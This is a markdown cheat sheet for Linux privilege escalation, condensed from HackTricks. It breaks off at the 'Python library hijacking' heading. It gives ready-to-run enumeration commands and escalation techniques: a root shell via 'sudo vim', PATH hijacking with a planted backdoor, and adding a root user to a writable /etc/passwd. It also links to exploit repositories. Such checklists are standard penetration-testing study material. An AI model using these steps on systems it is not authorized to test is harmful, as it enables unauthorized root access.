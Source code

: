 # Linux Privilege Escalation

Condensed version of the checklist found on [Hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation). There is a plethora of ways to escalate privileges but I'm going to list the most common ways to escalate privileges (In my experience) 

## System Information

### Path
Check for write permissions on any folder within your PATH. Potential to hijack libraries or binaries.
```bash
echo $PATH
```

### Kernel Exploits
Check the OS and kernel version for potential exploits
```
cat /etc/issue
uname -a
```

### CVE-2016-5195 (DirtyCow)
Impacts Linux kernel versions <4.8.3
```
https://github.com/exrienz/DirtyCow
```

### Sudo
```bash
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
```

### Check for compiler
It's always best to try and compile exploits on the target machine. This reduces the chance of error from being compiled on a different architecture.
```bash
dpkg --list 2>/dev/null | grep "compiler" | grep -v "decompiler\|lib" 2>/dev/null || yum list installed 'gcc*' 2>/dev/null | grep gcc 2>/dev/null; which gcc g++ 2>/dev/null || locate -r "/gcc[0-9\.-]\+$" 2>/dev/null | grep -v "/doc/"
```
### Installed Software
Find software installed on the machine along with its version. Might find some old software that has a vulnerability.
```bash
dpkg -l #Debian-based
rpm -qa #Centos-based
```

### Running processes
```
ps aux
```

## Users
### Standard Enumeration
```bash
#Info about me
id || (whoami && groups) 2>/dev/null
#List all users
cat /etc/passwd | cut -d: -f1
#List users with console
cat /etc/passwd | grep "sh$"
#List superusers
awk -F: '($3 == "0") {print}' /etc/passwd
#Currently logged users
w
#Login history
last | tail
#Last log of each user
lastlog

#List all users and their groups
for i in $(cut -d":" -f1 /etc/passwd 2>/dev/null);do id $i;done 2>/dev/null | sort
```

### Sudo/SUID
```bash
sudo -l #Check commands you can execute with sudo
find / -perm -4000 2>/dev/null #Find all SUID binaries
```


### NOPASSWD
With this permission, the user can run a specific command (or any) as another user without knowing the password.
```bash
$ sudo -l

User demo may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/vim
```
Here the user demo can run the vim command as the root user. We could get a root shell by executing the following:
```bash
sudo vim -c '!sh'
```

### Sudo/SUID w/o command path
If the user has sudo permission for a command without specifying its path (i.e *randomuser ALL = (root) less*), it can be exploited by changing the PATH variable
```bash
export PATH=/tmp:$PATH
#Put your backdoor in /tmp and name it "less"
sudo less
```

### GTFOBins
[GTFOBins](https://gtfobins.github.io/) is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions. With these you can break out restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and lots of other things.

__NOTE__: [FallofSudo](https://github.com/Critical-Start/FallofSudo) can help exploit permissions from `sudo -l`

## SSH
### Config Values
SSH configuration files are typically either /etc/ssh/ssh_config or /etc/ssh/sshd_config. Within these files you may find some interesting values:
```
PasswordAuthentication: Specifies whether password authentication is allowed. The default is no.
PubkeyAuthentication: Specifies whether public key authentication is allowed. The default is yes.
PermitEmptyPasswords: When password authentication is allowed, it specifies whether the server allows login to accounts with empty password strings. The default is no.
```

### PermitRootLogin
Specifies whether root can log in using ssh, default is no. Possible values:
* `yes` : root can login using password and private key
* `without-password` or `prohibit-password`: root can only login with private key
* `forced-commands-only`: Root can login only using privatekey cand if the commands options is specified
* `no` : no

### AuthorizedKeysFile
Sometimes you may be able to obtain the private ssh key of another, more privileged user. This will enable you to ssh in as that user without knowing their password. This key file `id_rsa` will usually be located in the `/home/{USER}/.ssh` directory.

## Interesting Files
### Writeable /etc/passwd
If `/etc/passwd` is writable, you can easily create a user with root privileges.
```
perl -e 'print crypt("{PASSWOR}", "{SALT}"),"\n"'
```
Then add the user and generated password to the file
```
USER_HERE:GENERATED_PASSWORD_HERE:0:0:root:/root:/bin/bash
```

### Writing to a sensitive file
```bash
find / '(' -type f -or -type d ')' '(' '(' -user $USER ')' -or '(' -perm -o=w ')' ')' 2>/dev/null | grep -v '/proc/' | grep -v $HOME | sort | uniq #Find files owned by the user or writable by anybody
for g in `groups`; do find \( -type f -or -type d \) -group $g -perm -g=w 2>/dev/null | grep -v '/proc/' | grep -v $HOME; done #Find files writable by any group of the user
```

### Backup files
```bash
find /var /etc /bin /sbin /home /usr/local/bin /usr/local/sbin /usr/bin /usr/games /usr/sbin /root /tmp -type f \( -name "*backup*" -o -name "*\.bak" -o -name "*\.bck" -o -name "*\.bk" \) 2>/dev/nulll
```

### Python library hijacking